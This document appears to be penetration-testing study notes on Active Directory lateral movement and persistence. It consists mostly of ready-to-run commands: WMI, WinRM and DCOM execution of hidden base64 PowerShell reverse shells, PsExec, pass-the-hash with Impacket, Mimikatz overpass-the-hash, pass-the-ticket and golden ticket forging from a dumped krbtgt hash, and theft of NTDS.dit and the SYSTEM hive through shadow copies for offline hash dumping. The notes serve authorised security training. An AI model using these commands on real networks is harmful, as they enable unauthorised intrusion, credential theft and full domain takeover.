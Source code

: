 ```yaml
---
layout: blank
pagetitle: Active Directory Lateral Movement
---
```


Lateral movement doesn't have to be used for different subnets. If we have credentials but lack rdp, lateral movement as a domain user is our friend

## WMI and WinRM

**Windows Management Instrumentation**
- Facilitates task automation via creating processes
- Uses Remote Procedure Calls (RPC) over 135 for remote access
- Abusing `wmic` (recently deprecated, but still probably good) on DMZ
	- `wmic /node:{target_IP} /user:{domain_user} /password:{password} process call create "{process}"`
	- To use with powershell, we need to turn the password into a secure string and pass a reverse shell:

```
$username = '{domain_user}';
$password = '{password}';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName {target_IP} -Credential $credential -SessionOption $Options

$Command = 'powershell -nop -w hidden -e {reverse_shell_powershell_b64}';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

**WinRM**
- Communicates over 5986 and 5985 with XML via HTTP/HTTPS
- Use with `winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "cmd /c {command}"` or `winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "powershell -nop -w hidden -e {reverse_shell_powershell_base64}"`
- Can also be done via powershell

```
$username = '{domain_user}';
$password = '{password}';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

New-PSSession -ComputerName {target} -Credential $credential
Enter-PSSession {PSSession_ID_returned}
```

## PsExec
- Tool used to replace telnet-like applications and provide remote execution of processes
- From [PsTools](https://download.sysinternals.com/files/PSTools.zip)
- Requires:
	- Local Administrator
	- `ADMIN$` share available (on by default)
	- File and Printer sharing (on by default)
- `./PsExec64.exe -i  \\{dnshostname} -u {domain}\{domain_user} -p {password} cmd`

## Pass the Hash (repeat from Module 16)
- Only works for NTLM hashes (discussed in 16 - Password Attacks)
- PsExec, Passing-the-hash toolkit, and Impacket can all pass hashes
- SMB must be open
- Impacket:
	- `impacket-psexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}` and
	- `impacket-wmiexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}`

## Overpass the Hash
- Use an NTLM user hash to gain a full Kerberos TGT to get a TGS
- Assumes we own a server that has a domain user's hash
- This can act as `RunAs` but for a domain user's hash 
- Performed using Mimikatz
	- `sekurlsa::pth /user:{domain_user} /domain:{domain} /ntlm:{compromised_hash} /run:powershell`
- To get a Kerberos ticket, we run something in the new powershell window as jen
	- `net use \\files04`
- Once we have the ticket, we can just use PsExec to run commands on the remote systems using the compromised user
	- `PsExec.exe \\{dnshostname} powershell`
	- This only worked as the _ACTUAL_ `Administrator` local user, not just an administrative user
		- Need to be able to write to C:\Windows
		- We can just change the local Administrator user if we have an administrative user

## Pass the Ticket
- TGTs only work on the machine they're created for, whereas TGSs offer flexibility
- Export current in-memory tickets with `sekurlsa::tickets /export`
	- This exports all tickets in `.kirbi` format in the same file directory, ls to find the ticket names (among other info)
	- We can then pick the desired ticket by passing the ticket name
		- `kerberos::ptt {ticket_name}`
	- If using these to access file shares, running something like `ls \\web04\` will just give an error. Type `ls \\web04\` and press tab (or just `Find-DomainShare` with PowerView)

## DCOM
- Good for lateral movement
- Exploits the Distributed Component Object Model (DCOM)
	- Used for creating software components that interact with each other
	- Local administrator access required
- Lateral movement attacks documented by [cybereason](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)
- Performed using built-in CreateInstance
	- `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","{target_IP}"))` 
	- `$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{powershell -nop -w hidden -e {reverse_shell_powershell_base64}}","7")`

## SMB
- `net view //{dnshostname or IP} /all`

## Persistence
- Not exactly tested by the exam, but shells can be flaky and these can help

**Golden Ticket**
- Trying to get the KDC's secret key to create self-made tickets for any service on the system
- Requires full control over the DC or a being part of a Domain Admin group
	- Or, requires krbtgt hash
- Dump `krbtgt` NTLM hash with mimikatz
	- `lsadump::lsa /patch`
- After grabbing the hash, from any domain user:
	- `kerberos::purge` to delete any existing tickets
	- `kerberos::golden /user:{domain_user} /domain:{domain} /sid:{domain_SID} /krbtgt:{krbtgt_NTLM_hash} /ptt`
		- The `domain_SID` can be gathered from whoami /user
- This will essentially give the domain user Domain Admin privileges
	- `PsExec.exe \\{domain_controller_dnshostname} powershell`
		- Can't use the IP of the DC, as that will resort to NTLM
		
**Shadow Copies**
- Volume Shadow Service is a Microsoft backup technology that allows creation of snapshots
- As a domain admin, we can create a shadow copy and extract the NTDS.dit database file
- Installed from [here](https://www.microsoft.com/en-us/download/details.aspx?id=23490)
- Run `vshadow.exe -nw -p C:`
- Then copy the Database from the shadow copy to the C: folder
	- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak`
- Then, save the SYSTEM hive with `reg.exe save hklm\system c:\system.bak`
- We can now access all NTLM hashes and Kerberos keys using `impacket-secretsdump`
	- `impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL`